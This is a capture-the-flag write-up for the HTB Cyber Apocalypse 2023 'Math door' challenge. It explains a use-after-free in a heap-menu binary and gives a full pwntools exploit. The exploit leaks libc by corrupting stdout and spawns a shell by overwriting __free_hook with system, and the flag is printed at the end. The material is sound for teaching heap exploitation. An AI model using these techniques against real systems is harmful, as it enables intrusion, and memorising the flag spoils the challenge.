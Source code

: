 # Math door - HTB Cyber Apocalypse 2023

## Description
Pandora is making her way through the ancient city, but she finds herself in a room with only locked doors. One of them looks majestic, and it has lots of hieroglyphs written on its surface. After inspecting it, she realizes it's all math: the door presents a problem and she has to solve it to go through to the heart of the ancient city. Will you be able to help her?

## Solution

Checksec:
```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
RUNPATH:  b'.'
```

All protections are enabled on this binary except for fortification.

The bug in this one is a UAF in the delete() function.
```C
void delete(void)

{
  uint uVar1;
  
  puts("Hieroglyph index:");
  uVar1 = read_int();
  if (uVar1 < counter) {
    free(*(void **)(chunks + (ulong)uVar1 * 8));
  }
  else {
    puts("That hieroglyph doens\'t exist.");
  }
  return;
}
```

This only frees the chunk, but keeps the index inside of the list, which allows us to modify the chunk even after it was freed with add.

Add adds the bytes given onto the data that is already present in the chunk.

However no function exists to print the contents of a chunk, therefore we will have to find another way to get a leak.

Since this is libc 2.31, no heap pointer mangling is present and we can therefore just modify the pointers inside of a chunk. This is about as good as a leak is, but not entirely. So we'll need to create a leak primitive ourselves.

To create a leak primitive we first need a libc pointer. However the program only allows us to allocate chunks of size 0x18, which means we can't just allocate a chunk which goes into the unsorted bin.

The solution to this problem is the following:
1. Create 3 chunks
2. Delete the 2 first chunks
3. Point chunk 2's free pointer at chunk 3's size
4. Reallocate the 2 chunks. Chunk 5 now overlaps with chunk 2's size
5. Add to chunk 5, overwriting chunk 2's size with 0x421
6. Allocate enough chunks to realign chunk 2 with the rest of the heap
7. Free chunk 2

This will make GLIBC think that it has freed an unsorted bin and provide us with a libc pointer on the heap.

Next, we can free four other chunks and point the 3rd one to the newly created libc pointer. Then allocate three chunks again. The 4th chunk allocated will be inside libc.

As we can modify the libc pointer with add, we can basically just point inside anywhere we want in libc. I decided to first allocate 2 chunks inside of the FILE pointer stdout, so that it leaks libc data, next time a function which uses stdout is called.

Once the leak is received, we can allocate a chunk inside __free_hook and point it at system. Then free a chunk containing the string "/bin/sh" to spawn a shell.

Here is the exploit which does exactly this:

```py
from pwn import *

context.binary = "./math-door"

io = remote("104.248.169.175",31001)

def create():
    io.recvuntil(b'Action:')
    io.sendline(b'1')
    io.recvuntil(b'Hieroglyph created with index ')
    return int(io.recvuntil(b'.')[:-1])

def delete(idx):
    io.recvuntil(b'Action:')
    io.sendline(b'2')
    io.recvuntil(b'Hieroglyph index:')
    io.sendline(f"{idx}".encode())
def add(idx,data):
    io.recvuntil(b'Action:')
    io.sendline(b'3')
    io.recvuntil(b'Hieroglyph index:')
    io.sendline(f"{idx}".encode())
    io.recvuntil(b'Value to add to hieroglyph:')
    io.send(data)
    
    
# Overlap chunks to overwrite the size of the next chunk
create()
create()
create()
delete(0)
delete(1)
add(1,p8(0x30))
create()
create()
add(4,p64(0x0)+p64(0x421))

# Allocate enough chunks for the new unsorted bin to be a valid chunk
for i in range(5,40):
    create()

#Free the newly created big chunk to get a libc pointer 
delete(2)

#Free some chunks to get pointers we can modify
delete(7)
delete(8)
delete(9)
delete(10)
#Point chunk 9's free pointer to our libc pointers
add(9,p64(unsigned(-0x80)))
#Point our libc pointer at __IO_2_1_stdout-0x10
add(4,b'A'*16+p64(0xab0))

#Create 3 chunks so the next chunk we allocate will be inside of stdout
create()
create()
create()

#Get the index of chunk inside stdout
last_idx = create()

#Turn the flags variable in stdout to 0xfbad1800
add(last_idx,b'\x00'*16+p64(unsigned(-0x1087)))

#Point our libc pointer a bit further down so we can allocate a chunk
#on top of _IO_write_base
add(4,b'\x00'*16+p64(0x20))

#Free more chunks so we can point it at our libc pointer
delete(11)
delete(12)
delete(13)
delete(14)

#Point chunk 13 at our libc pointer
add(13,p64(unsigned(-0x100)))
#Create 3 chunks so the next chunk we allocate will be on top of _IO_write_base
create()
create()
create()

#Get the index of the chink which can overwrite write_base
last_idx = create()

#Point write_base 0x100 further down. This will now cause a leak when calling puts next
add(last_idx,b'\x00'*16+p64(unsigned(-0x100)))
io.recv(5)
# Receive our leak
leak = u64(io.recv(8))

#Calc libc base
libc_base = leak-0x1ed6a0
free_hook = libc_base+0x1eee48
system = libc_base+0x52290
log.info(f"LIBC BASE: {libc_base:#x}")

#Free more chunks so we can point at __free_hook
delete(15)
delete(16)
delete(17)
delete(18)
add(17,p64(0x10))
#Point chunk 16 at free hook
add(16,b'A'*16+p64(free_hook-8))

#Allocate the chunks untill our free_hook pointer
create()
create()
create()

#Allocate the free_hook pointer and set it to system
last_idx = create()
add(last_idx,b'A'*8+p64(system))

#Put /bin/sh inside of chunk 19
add(19,b'/bin/sh\x00')

#Trigger free_hook with /bin/sh
delete(19)


io.interactive()
```

## Flag
`HTB{y0ur_m4th_1s_fr0m_4n0th3r_w0rld!}`
